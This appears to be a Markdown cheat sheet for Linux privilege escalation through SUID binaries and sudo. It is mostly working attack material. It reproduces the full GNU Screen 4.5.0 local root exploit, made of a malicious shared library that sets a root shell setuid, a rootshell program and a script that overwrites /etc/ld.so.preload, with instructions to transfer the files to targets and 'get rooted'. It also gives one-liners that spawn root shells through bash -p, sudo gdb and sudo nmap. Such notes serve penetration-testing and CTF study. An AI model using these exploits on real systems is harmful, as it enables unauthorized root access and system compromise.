 # Linux - CapSuidSudo

# Capabilities

# SUID

- [Bash](#bash)
- [Screen4.50](#screen450)

### Bash

```
bash -p
```

### Screen4.50

All of these file do it on your machine first then transfer the file to your targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)


# Sudo

- [Gdb](#gdb)
- [Nmap](#nmap)

## GDB

```
sudo /usr/bin/gdb -nx -ex '!sh' -ex quit
```

## Nmap

```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```